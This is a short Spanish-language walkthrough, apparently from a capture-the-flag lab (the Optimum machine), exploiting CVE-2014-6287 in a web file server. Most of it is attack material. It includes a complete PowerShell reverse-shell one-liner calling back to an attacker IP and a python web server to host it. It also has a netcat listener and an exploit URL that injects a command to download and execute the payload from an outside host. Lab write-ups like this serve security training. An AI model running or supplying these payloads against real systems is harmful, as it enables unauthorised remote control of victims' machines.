 #CVE-2014-6287

------

Vamos a crear un archivo reverse.ps1 con el siguiente payload. Esto lo sacamos de [payloadallthethings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)

![[Optimum10.png]]
Vamos a usar el script de [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) para mandarnos la [[Reverse shell]]

```ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


Vamos a estar hosteando el archivo con un server de [[python3 -m http.server]] con el comando `python3 -m http.server 80` para que se descarge el archivo *reverse.ps1* con el cual vamos a inyectar el payload

![[Optimum9.png]]
Mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] 

Ejecutamos la vulnerabilidad mediante este link, solamente cambiando la ip desde la cual se va a descargar el archivo

`http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.16.15/reverse.ps1%27).}`

![[Optimum7 1.png]]
Ya estamos adentro de la maquina
